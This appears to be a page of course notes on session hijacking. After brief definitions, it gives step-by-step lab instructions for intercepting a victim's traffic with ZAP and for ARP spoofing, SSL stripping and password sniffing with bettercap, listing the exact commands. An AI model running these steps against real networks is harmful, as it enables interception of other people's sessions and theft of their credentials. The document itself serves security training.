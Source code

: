  # Module 11

## Session Hijacking
A session hijacking attack refers to the exploitation of a session token-generation mechanism or token security controls that enables an attacker to establish an unauthorized connection with a target.

### Types of Session Hijacking
Session hijacking can be either active or passive, depending on the degree of involvement of the attacker:
- **Active session hijacking**: An attacker finds an active session and takes it over
- **Passive session hijacking**: An attacker hijacks a session, and, instead of taking over, monitors and records all the traffic in that session

---

### 1. Perform Session Hijacking
Session hijacking allows an attacker to take over an active session by bypassing the authentication process.

#### 1.1 Hijack a session using Zed attack proxy (ZAP)
**Steps**:
- Set the browser proxy to go through Attack PC running ZAP. Now go to the break tab (same as intercept in Burp).
- Now set the proxy settings
- Click the Set break on all requests and responses icon on the main ZAP toolbar. This button sets and unsets a global breakpoint that will trap and display the next response or request from the victim's machine in the Break tab. Note: The Set break on all requests and responses icon turns automatically from green to red.
- Now when the victim browses the sites, his request will be intercepted and we can forward request one by one. We can modify the parameter as we want.

#### 1.2 Perform session hijacking with bettercap
**Reference**
[MITM Labs/Bettercap Over Wifi - charlesreid1](https://charlesreid1.com/wiki/MITM_Labs/Bettercap_Over_Wifi#Sniffing_HTTPS_with_SSLSniff)
- Bettercap help
  - `bettercap -h`
- Start bettercap
  - `sudo bettercap -iface eth0`
- Type `Help` to list all commands.
- To detect hosts on network
  - `net.probe on`
  - `net.show`
- Now enable ssl strip (HTTPS to HTTP)
  - `set http.proxy.sslstrip true`
- Now lets do the arp poisoning
  - `set arp.spoof.fullduplex true`
  - `set arp.spoof.targets 192.168.29.33`
- Now turn on http proxy and sniffer
  - `http.proxy on`
  - `net.sniff on`
- To set the sniffer to capture only passwords, we can use the following
  - `set net.sniff.regexp '.*password=.+'`
